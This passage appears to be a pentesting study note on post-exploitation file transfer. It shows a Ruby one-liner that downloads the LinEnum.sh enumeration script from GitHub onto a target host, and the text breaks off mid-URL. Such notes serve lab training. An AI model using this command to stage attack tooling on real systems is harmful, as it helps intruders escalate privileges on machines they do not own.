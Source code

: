 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```

#### Ruby - Download a File

```shell-session
arenwald@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/
```